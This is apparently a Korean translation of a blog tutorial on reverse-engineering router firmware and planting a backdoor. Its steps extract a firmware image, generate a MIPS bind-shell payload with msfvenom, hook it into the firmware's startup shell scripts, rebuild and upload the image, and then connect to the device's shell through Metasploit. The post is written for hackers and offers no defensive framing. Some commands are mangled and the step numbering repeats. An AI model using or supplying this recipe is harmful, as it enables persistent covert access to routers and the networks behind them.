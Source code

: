 ```yaml
---
title: "라우터 펌웨어 역공학 및 백도어 설치 방법"
description: ""
coverImage: "/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png"
date: 2024-07-06 02:52
ogImage:
  url: /assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png
tag: Tech
originalTitle: "Reverse Router Firmware , Backdooring It…"
link: "https://medium.com/@nahid0x1/reverse-router-firmware-backdooring-it-78ff442edb6c"
isUpdated: true
---
```


라우터 펌웨어는 네트워크 인프라의 중요한 구성 요소이며 보안이 자주 간과됩니다. 해커로서 라우터 펌웨어를 역공학 및 백도어링하는 방법을 이해하는 것이 중요합니다. 이 문서에서는 라우터 펌웨어를 역공학하고 백도어링하는 과정을 살펴보겠습니다.

![라우터 펌웨어 역공학 및 백도어링](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png)

도구 및 요구 사항

- 리눅스 머신 (Kali Linux)
- Binwalk: 펌웨어 분석 도구
- Firmware-Mod-Kit (github.com/rampageX/firmware-mod-kit)

<div class="content-ad"></div>

단계 1: 대상 라우터 펌웨어 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_1.png)

단계 2: 압축 해제하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_2.png)

<div class="content-ad"></div>

Step 3: Firmware-mod-kit 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_3.png)

```bash
git clone https://github.com/rampageX/firmware-mod-kit

sudo apt-get install git build-essential zlib1g-dev liblzma-dev python3-magic autoconf python-is-python3
```

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_4.png)

<div class="content-ad"></div>

단계 4: 펌웨어 추출하기

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_5.png

```js
firmware-mod-kit/extract-firmware.sh firmware.bin
```

단계 5: rootfs 폴더로 이동하기

<div class="content-ad"></div>

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_6.png

단계 6: Metasploit을 사용하여 백도어(backdoor) 생성하기

참고: 먼저 펌웨어 엔디안이 리틀 엔디안(little endian)인지 다른 종류의 엔디안인지 확인하십시오.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_7.png

<div class="content-ad"></div>

```js
cd bin
msfvenom -p linux/mipsle/shell_bind_tcp LPORT=1337 -f elf > backdoor
chmod 777 backdoor
```

Step 7: 백도어를 실행하도록 설정합니다.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_8.png

```js
cd ...
find . -name "*.sh" #이 명령어는 모든 .sh 파일을 검색합니다
#찾은 .sh 파일에 "/bin/backdoor &"를 추가하세요
```

<div class="content-ad"></div>

8단계: 펌웨어를 다시 빌드하세요

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_9.png

```js
firmware - mod - kit / build - firmware.sh;
```

9단계: 펌웨어 업로드

<div class="content-ad"></div>

- 관리자 패널에 로그인하세요.
- 업데이트 옵션을 찾으세요.

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_10.png)

- 이제 수정된 펌웨어를 업로드하세요...

단계 9: 라우터 쉘에 액세스하기

<div class="content-ad"></div>

```js
msfconsole
use exploit/multi/handler
set payload linux/mipsle/shell_bind_tcp
set LPORT 1337
set rhost 192.168.0.1
exploit
```

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_11.png
